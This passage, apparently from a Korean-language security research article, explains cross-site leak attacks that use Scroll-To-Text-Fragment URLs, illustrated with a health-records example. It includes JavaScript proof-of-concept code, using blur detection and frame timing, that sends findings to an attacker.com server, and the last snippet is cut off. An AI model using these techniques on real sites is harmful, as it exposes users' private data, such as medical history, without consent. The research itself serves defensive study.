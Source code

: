 이와 같이 STTF를 이용하여 페이지에 특정 텍스트 검색을 시도하고 이로 인해 스크롤이 발생하는지 유무를 공격자 서버로 전송한다. 공격자는 자신의 서버 로그를 확인하여 페이지에 어떤 내용이 존재하는지 확인할 수 있다. 이는 기존에 CSS Injection을 이용하여 STTF를 감지하는 방법 외에 추가적인 감지 방법이다.

본 공격의 경우 portal에서 발생하는 XSLeak 취약점과 상당히 유사하다. 하지만 STTF를 이용한 XSLeak의 경우 페이지에 요소를 검색하는 것이 아닌 직접적인 텍스트를 검색하는 것으로 portal에서 발생하는 XSLeak 보다 유출되는 정보가 더 명확하고 직접적이다.

간단한 상황적 예시로 사용자가 국가 보건 시스템 사이트에 로그인 되어있고 해당 사이트에서 사용자의 과거 질병과 건강 문제에 대한 정보와 내역을 확인할 수 있는 페이지가 있다고 가정하자. 공격자는 해당 사용자를 자신의 악성 페이지로 유인하고 사용자가 공격자 페이지에 접속하면 XSLeak 취약점이 발생하여 건강 새부 정보를 유출할 수 있다.

```html
https://health.gov/patient-records#:~:text=diabetes
https://health.gov/patient-records#:~:text=cancer
https://health.gov/patient-records#:~:text=depression
```

이와 같이 각 질병명에 대해 검색이 발생하는지 CSS Injection 또는 `IntersectionObserver` API를 통해 감지하여 대상 사용자의 의료 정보 및 질병 정보를 유출할 수 있다. 이처럼 STTF를 이용한 XSLeak 취약점의 경우 사용자의 권한을 이용하여 타겟 사이트에 대한 유의미한 정보를 유출할 수 있다.

STTF를 이용하여 XSLeak 취약점을 발현시키는 방법은 본 리서치에서 언급한 방법 외에도 다양한 방법이 존재한다. portal과 마찬가지로 `onblur` 이벤트를 이용하여 프레임에 포커싱이 해제되는지 여부를 감지하여 XSLeak 취약점을 발현시킬 수 있다.

```html
<script>
  let blurDetected = false;

  window.addEventListener("blur", () => {
    if (!blurDetected) {
      blurDetected = true;
      fetch("https://attacker.com/leak?scroll_detected=true");
    }
  });

  const popup = window.open(
    "https://target.com#:~:text=confidential",
    "_blank"
  );

  setTimeout(() => {
    if (!blurDetected) {
      fetch("https://attacker.com/leak?scroll_detected=false");
    }
    popup.close();
  }, 3000);
</script>
```

또한 STTF에서 텍스트 매칭 작업이 존재하는 경우와 존재하지 않는 경우의 처리 시간 차이를 이용한 Timing Attack 공격이 가능하다.

```jsx
function measureProcessingTime(targetUrl, searchTerm) {
  const startTime = performance.now();
  let frameCount = 0;

  const measureFrame = () => {
    frameCount++;
    if (frameCount < 60) {
      requestAnimationFrame(measureFrame);
    } else {
      const avgFrameTime = (performance.now() - startTime) / frameCount;

      if (avgFrameTime > 20) {
        fetch(
          `https://attacker.com/leak?found=${searchTerm}&timing=${avgFrameTime}`
        );
      }
    }
  };

```